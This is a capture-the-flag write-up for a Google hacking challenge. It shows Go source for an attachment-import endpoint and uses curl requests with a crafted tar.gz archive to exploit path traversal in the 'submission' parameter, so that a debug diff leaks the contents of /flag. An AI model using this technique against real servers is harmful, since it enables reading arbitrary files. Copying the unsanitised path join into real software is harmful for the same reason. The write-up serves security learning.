 # Episode 4: Challenge 1

## Description

> This endpoint is used by the VRP website to download attachments. It also has a rarely-used endpoint for importing bulk attachments, probably used for backups or migrations. Maybe it contains some bugs?
> 
> Hint: Some of the pages on this version of the website are different, look around for hints about new endpoints. 

A link to a website was attached.

## Solution

The attached website is a duplicate of the "Google VRP" website, used to submit vulnerabilities to Google.

The FAQ contains the following Q&A:

```
Q: Why did my attachment fail to upload?

A: To debug, you should call the /import endpoint manually and look at the detailed error message in the response. The same applies to the /export endpoint for downloading attachments from a submission. 
```

Let's try it:

```console
┌──(user@kali)-[/media/sf_CTFs/h4ck1ng.google/EP004/Challenge_01]
└─$ curl "https://path-less-traversed-web.h4ck.ctfcompetition.com/import"
only POST allowed

┌──(user@kali)-[/media/sf_CTFs/h4ck1ng.google/EP004/Challenge_01]
└─$ curl -X POST "https://path-less-traversed-web.h4ck.ctfcompetition.com/import"
missing submission parameter

┌──(user@kali)-[/media/sf_CTFs/h4ck1ng.google/EP004/Challenge_01]
└─$ curl -X POST "https://path-less-traversed-web.h4ck.ctfcompetition.com/import?submission=0"
server undergoing migration, import endpoint is temporarily disabled (dry run still enabled)
```

Dry run? What? Well, this challenge becomes much more understandable once we get the source code from [Challenge 3](e04c03.md).

```go
// importAttachments imports a tar archive of attachments for a submission.
func importAttachments(w http.ResponseWriter, r *http.Request) {
	if r.Method != http.MethodPost {
		http.Error(w, "only POST allowed", http.StatusMethodNotAllowed)
		return
	}

	submission := r.URL.Query().Get("submission")
	if submission == "" {
		http.Error(w, "missing submission parameter", http.StatusBadRequest)
		return
	}

	// Allow a dry run to test the endpoint.
	dryRun := r.URL.Query().Get("dryRun") != ""

	// TODO: Remove this before deploying to prod!
	debug := r.URL.Query().Get("debug") != ""

	// Read the archive from the request.
	r.ParseMultipartForm(32 << 20) // Limit max input length
	file, header, err := r.FormFile("attachments")
	if err != nil {
		http.Error(w, fmt.Sprintf("could not open file %v: %v", file, err), http.StatusBadRequest)
		return
	}
	defer file.Close()

	filename := filepath.Base(header.Filename)

	// Open with gzip and tar.
	in, err := gzip.NewReader(file)
	if err != nil {
		http.Error(w, fmt.Sprintf("could not open file %v with gzip: %v", filename, err), http.StatusBadRequest)
		return
	}
	tr := tar.NewReader(in)

	// Parse the .tar.gz file.
	for {
		var err error

		// Read until the EOF chunk.
		h, err := tr.Next()
		if err != nil {
			if err == io.EOF {
				break
			}
			http.Error(w, fmt.Sprintf("error reading tar entry: %v", err), http.StatusBadRequest)
			return
		}

		// Skip directories.
		if h.FileInfo().IsDir() {
			fmt.Printf("skipping directory %v in archive\n", h.Name)
			continue
		}

		// Check if the file already exists. If so, show a diff.
		attachmentPath := path.Join(submission, h.Name)
		info, err := os.Stat(attachmentPath)
		if err != nil {
			fmt.Fprintf(w, "new file: %v\n", attachmentPath)
			continue
		}

		// File already exists.
		if !info.Mode().IsRegular() {
			fmt.Fprintf(w, "skipping non-regular file attachment %v\n", attachmentPath)
			continue
		}
		fmt.Fprintf(w, "WARNING: file %v already exists and would get overwritten (enable debug to see differences)\n", attachmentPath)

		// Read the archive file.
		trContents, err := ioutil.ReadAll(tr)
		if err != nil {
			http.Error(w, fmt.Sprintf("error reading uploaded attachment %v: %v", h.Name, err), http.StatusBadRequest)
			return
		}

		// TODO: Remove this before deploying to prod!
		if debug {
			trString := string(trContents)

			existingContents, err := ioutil.ReadFile(attachmentPath)
			if err != nil {
				http.Error(w, fmt.Sprintf("error reading existing file %v: %v", attachmentPath, err), http.StatusBadRequest)
				return
			}
			existingString := string(existingContents)

			if strings.Compare(trString, existingString) == 0 {
				fmt.Fprintf(w, "no differences\n")
				continue
			}

			msg := "showing existing and new contents:\n"
			msg += "=====\n"
			for _, line := range strings.Split(strings.ReplaceAll(existingString, "\r\n", "\n"), "\n") {
				msg += fmt.Sprintf("< %s\n", line)
			}
			msg += "-----\n"
			for _, line := range strings.Split(strings.ReplaceAll(trString, "\r\n", "\n"), "\n") {
				msg += fmt.Sprintf("> %s\n", line)
			}
			msg += "=====\n"
			fmt.Fprintf(w, "%s\n", msg)

			// Debug mode, so just continue without writing the file.
			continue
		}

		// Write the new file.
		os.WriteFile(attachmentPath, trContents, 0660)
	}
}
```

Now we see that we can provide a `dryRun` parameter. Moreover, we can also provide a `debug` parameter which prints out much more details. 
And above all that, we can also spot a subtle vulnerability that allows us to perform a Local File Inclusion attack by controlling the `submission` parameter.

Let's use all that to leak the flag. We'll assume that the flag is located at `/flag` like in other challenges.

First, we need to create a dummy `flag` file, zipped in a GZIP archive:

```console
┌──(user@kali)-[/media/sf_CTFs/h4ck1ng.google/EP004/Challenge_01]
└─$ echo fake_flag > flag

┌──(user@kali)-[/media/sf_CTFs/h4ck1ng.google/EP004/Challenge_01]
└─$ tar -zcvf test.tar.gz flag
flag
```

We submit it to the `import` endpoint:

```console
┌──(user@kali)-[/media/sf_CTFs/h4ck1ng.google/EP004/Challenge_01]
└─$ curl -X POST "https://path-less-traversed-web.h4ck.ctfcompetition.com/import?submission=/&debug=1&dryRun=1" -F attachments=@test.tar.gz
WARNING: file /flag already exists and would get overwritten (enable debug to see differences)
showing existing and new contents:
=====
< https://h4ck1ng.google/solve/TakingThePathLessTraversed
<
-----
> fake_flag
>
=====
```

The `/` from the `submission` parameter was joined with the `flag` that we archived and allowed us to see the diff between our dummy file and `/flag`, leaking us the real flag.